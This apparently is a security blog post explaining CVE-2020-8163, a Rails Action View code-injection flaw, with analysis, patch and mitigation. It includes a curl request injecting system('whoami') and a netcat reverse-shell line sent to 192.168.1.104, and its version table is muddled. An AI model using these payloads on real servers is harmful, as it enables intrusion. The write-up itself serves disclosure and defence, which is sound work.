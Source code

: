 ```yaml
---
layout: post
title:  "CVE-2020-8163"
summary: "Potential Remote Code Execution in Action View"
date: 2020-08-22 00:13:37
image: /assets/profile.png
author: tim_koopmans
categories: ruby
tags:
 - security
---
```

# Potential Remote Code Execution in Action View

If you **user parameters as local variables** into partials on affected versions of Rails, it is possible for attackers to perform remote code execution. From there, _really_ bad things happen.
{: .critical }

<script id="asciicast-VVnc3ItIsDe7PgbRxtASUByTH" src="https://asciinema.org/a/VVnc3ItIsDe7PgbRxtASUByTH.js" async></script>
<table>
  <thead>
    <tr>
      <th>Related Code</th>
      <th>Affected Versions</th>
      <th>Patched Versions</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>
        <i class="devicon-ruby-plain"></i>
        <a href="https://api.rubyonrails.org/classes/ActionView.html">ActionView</a>
      </td>
      <td>
        All
      </td>
      <td>
        < 5.0.1
      </td>
    </tr>
  </tbody>
</table>

## Vulnerability[^fn-nist]

The `locals` argument to rendering a partial, does not sanitize user input. A vulnerable call to a partial template will look something like this:

```erb
<%= render partial: 'flag', locals: params %>
```

## Weakness

This vulnerability lets an attacker [inject code](http://cwe.mitre.org/data/definitions/94.html) which can lead to remote code execution.

## Attack

The attacking request will look something like this[^fn-demo]:

{% highlight bash %}
{% raw %}
curl http://target/users/index?system(%27whoami%27)%0A%23"
{% endraw %}
{% endhighlight %}

Since the query parameter contains arbitrary code and the targeted controller renders a partial view with local variables, this same code can potentially be executed on the target platform as a system call. Other variants to this attack might include the use of \``backticks`\` or `%x` / `Kernel#` methods.

## Analysis

The `ActionView::Template` class has a protected method called `compile` which sets the encoding of the compiled template for the view. Within this method, the dynamic views created by partials are eval'd into the encoded view[^fn-analysis]. It does this by [building a string](https://github.com/rails/rails/blob/v5.0.0/actionview/lib/action_view/template.rb#L287-L293) which is a dynamic method that uses `module_eval` to [evaluates the string in the context of mod](https://apidock.com/ruby/Module/module_eval). This is how the attacker is able to run abitrary code.

The dynamic string that is built will look something like this at run time:

```ruby
def _app_views_users__unsafe_html_erb___2814227942932613306_70032701656460(local_assigns, output_buffer)
  _old_virtual_path, @virtual_path = @virtual_path, "users/_unsafe"
  _old_output_buffer = @output_buffer
  action = action = local_assigns[:action]
  controller = controller = local_assigns[:controller]
  system('nc 192.168.1.104 4443 -e /bin/bash')
  #
  ...
ensure
  @virtual_path, @output_buffer = _old_virtual_path, _old_output_buffer
end
```

You can see in this example, the system method where the attacker then uses netcat to perform a reverse shell from within your server environment. This would of course depend on you having netcat installed, but given the attacker could chain these system calls, they could perform the necessary steps through remote code execution.

So how did this system call get into the dynamically eval'd method above in the first place?

The first thing the attacker would need, is for you to be rendering partials with the locals argument:

```erb
<%= render partial: 'flag', locals: params %>
```

When the `compile` method builds the aforementioned string, it makes another call to the `locals_code` [method in the same class](https://github.com/rails/rails/blob/v5.0.0/actionview/lib/action_view/template.rb#L327-L330) which looks like this:


```ruby
def locals_code #:nodoc:
  # Double assign to suppress the dreaded 'assigned but unused variable' warning
  @locals.each_with_object('') { |key, code| code << "#{key} = #{key} = local_assigns[:#{key}];" }
end
```

You can see here, that the `@locals` array iterates over each item and concatenates it to the string object. If the attacker passed in a parameter such as `system(%27whoami%27)%0A%23` then the resulting string will look something like:

```ruby
system(\'nwhoami\')
# = system(\'nwhoami\')
# = local_assigns[:system(\'nwhoami\')
```

By properly encoding the parameter, and appending a new line `%0A` followed by a hash `%23` the attacker is able to create a syntactically correct, dynamic method which is when evaluated, executes their system call.

A more simple demonstration with Ruby looks like this:

```ruby
source = 'def dynamic_method
  system(\'whoami\')
  #
end'

class Thing
end

Thing.module_eval(source)

irb(main):052:0> Thing.new.dynamic_method
root
```

## Fix

The best fix for this, is to upgrade Rails to a patched version.

The patch itself, sanitizes items in the `@locals` array of the `locals_code` method with something like this:

```ruby
+        locals = @locals.to_set - Module::DELEGATION_RESERVED_METHOD_NAMES
+        locals = locals.grep(/\A(?![A-Z0-9])(?:[[:alnum:]_]|[^\0-\177])+\z/)
```

The vulnerability can also be mitigated by making sure you do not render partials with user provided paramaters with something like this instead:

```erb
<%= render partial: 'flag', locals: { user: @user } %>
```

# Research

You can re-create this in a [CVE laboratory environment](https://github.com/correkthorse/rails-cve-testing) using Docker.

    CVE=CVE-2020-8163 RAILS_VERSION=4.2.11.1 make lab

# References

[^fn-nist]: [First published at NVD on 7 February 2020](https://nvd.nist.gov/vuln/detail/CVE-2020-8163)
[^fn-demo]: [CVE-2020-8163 - Remote code execution of user-provided local names in Rails](https://github.com/sh286/CVE-2020-8163)
[^fn-analysis]: [CVE-2020-8163: Partial Remote Code Execution](https://medium.com/@qazbnm456/cve-2020-8163-partial-remote-code-execution-c6f46bcdef2)
